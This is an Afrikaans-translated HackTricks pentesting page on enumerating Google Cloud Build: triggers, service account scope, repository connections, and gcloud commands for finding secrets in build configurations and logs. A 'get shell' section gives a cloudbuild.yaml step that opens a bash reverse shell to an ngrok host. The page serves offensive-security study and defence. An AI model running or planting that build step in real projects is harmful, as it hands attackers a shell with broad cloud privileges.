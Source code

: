 # GCP - Cloud Build Enum

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

## Basiese Inligting

Google Cloud Build is 'n bestuurde CI/CD-platform wat **die outomatiese sagtewarebou- en vrystellingsprosesse outomatiseer**, integreer met **bronkode-opslagplekke** en 'n wye verskeidenheid programmeertaale ondersteun. Dit **stel ontwikkelaars in staat om kode outomaties te bou, toets en implementeer** terwyl dit die buigsaamheid bied om boustappe en werkstrome aan te pas.

Elke Cloud Build Trigger is **verwant aan 'n Cloud Repository of direk gekoppel met 'n eksterne opslagplek** (Github, Bitbucket en Gitlab).

{% hint style="success" %}
Ek kon nie enige manier sien om die Github/Bitbucket-token van hier of van Cloud Repositories te steel nie omdat wanneer die repo afgelaai word, dit via 'n [https://source.cloud.google.com/](https://source.cloud.google.com/) URL toegang kry en Github nie deur die kliënt toegang kry nie.
{% endhint %}

### Gebeure

Die Cloud Build kan geaktiveer word as:

* **Druk na 'n tak**: Spesifiseer die tak
* **Druk 'n nuwe etiket**: Spesifiseer die etiket
* **Pull-aanvraag**: Spesifiseer die tak wat die PR ontvang
* **Handmatige Oproep**
* **Pub/Sub-boodskap**: Spesifiseer die onderwerp
* **Webhook-gebeurtenis**: Sal 'n HTTPS-URL blootstel en die versoek moet geoutentiseer word met 'n geheim

### Uitvoering

Daar is 3 opsies:

* 'n yaml/json **wat die opdragte spesifiseer** om uit te voer. Gewoonlik: `/cloudbuild.yaml`
* Slegs een wat "inline" in die webkonsolide en in die opdraggewer gespesifiseer kan word
* Mees algemene opsie
* Relevant vir ongeoutentiseerde toegang
* 'n **Dockerfile** om te bou
* 'n **Buildpack** om te bou

### SA-toestemmings

Die **Diensrekening het die `cloud-platform`-omvang**, sodat dit **alle voorregte kan gebruik**. As **geen SA gespesifiseer is** (soos wanneer 'n indiening gedoen word) sal die **verstek SA** `<proj-nommer>@cloudbuild.gserviceaccount.com` **gebruik word.**

Standaard word geen toestemmings gegee nie, maar dit is redelik maklik om dit te gee:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Goedkeurings

Dit is moontlik om 'n Cloud Build te konfigureer om **goedkeurings vir bou-uitvoerings te vereis** (standaard gedeaktiveer).

### Verbindings & Repositories

Verbindings kan geskep word oor:

* **GitHub:** Dit sal 'n OAuth-prompt wys wat vra vir toestemmings om 'n Github-token te **kry wat binne die **Secret Manager** gestoor sal word.**
* **GitHub Enterprise:** Dit sal vra om 'n **GithubApp** te installeer. 'n **Outentiseringsleutel** van jou GitHub Enterprise-gashuis sal geskep en in hierdie projek as 'n **Secret Manager**-geheim gestoor word.
* **GitLab / Enterprise:** Jy moet die API-toegangstoken en die Lees-API-toegangstoken voorsien wat in die **Secret Manager** gestoor sal word.

Sodra 'n verbinding gegenereer is, kan jy dit gebruik om **opslagplekke te koppel wat die Github-rekening toegang tot** het.

Hierdie opsie is beskikbaar deur die knoppie:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Let daarop dat opslagplekke wat op hierdie manier gekoppel is, **slegs beskikbaar is in Triggers wat 2de generasie gebruik.**
{% endhint %}

### Koppel 'n Repository

Dit is nie dieselfde as 'n **`verbinding`** nie. Dit bied **verskillende** maniere om **toegang tot 'n Github- of Bitbucket-opslagplek** te kry, maar **skep nie 'n verbindingsvoorwerp nie, maar dit skep 'n opslagplekvoorwerp (van 1ste generasie).**

Hierdie opsie is beskikbaar deur die knoppie:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Berging

Soms sal Cloud Build **'n nuwe berging genereer om die lêers vir die trekker te stoor**. Dit gebeur byvoorbeeld in die voorbeeld wat GCP aanbied met:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
'n Stoorhouer genaamd [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) is geskep om 'n `.tgz` met die lêers wat gebruik moet word, te stoor.

### Kry dop
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Opsomming

Jy kan **sensitiewe inligting in boukonfigurasies en logboeke vind**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Voorregverhoging

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Ongeagte Toegang

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Na-Exploitasi

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
